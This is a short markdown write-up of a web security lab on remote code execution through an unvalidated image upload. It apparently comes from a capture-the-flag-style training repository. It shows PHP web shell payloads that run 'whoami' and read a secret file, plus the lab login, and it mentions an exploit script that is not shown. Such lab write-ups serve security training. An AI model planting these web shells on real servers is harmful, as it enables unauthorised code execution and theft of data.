




# Lab: Remote Code Execution via Web Shell Upload

---

**Vuln** — The image upload function has no validation at all — it stores any file directly on the server's filesystem.

**Goal** — Upload a PHP web shell, read `/home/carlos/secret`, and submit it.

**Creds** — `wiener:peter`

---

### Steps

1. **Login and find the upload panel**
   - 

2. **Upload a test payload** — try `<?php system("whoami"); ?>` to confirm code execution
   - Check the response in **Burp Suite**
   - 
   - Payload worked — response shows `carlos`, so the server executes PHP without any checks

3. **Upload the real payload** — `shell.php` with `<?php system("cat /home/carlos/secret"); ?>` to read the secret
   - 

4. **Submit the secret → Lab solved ✅**
   - 

---

### Files Used

| File | Purpose |
|------|---------|
| `shell.php` | Web shell — `<?php system("cat /home/carlos/secret"); ?>` |
| `POC.py` | Automated exploit script (login → upload → read secret) |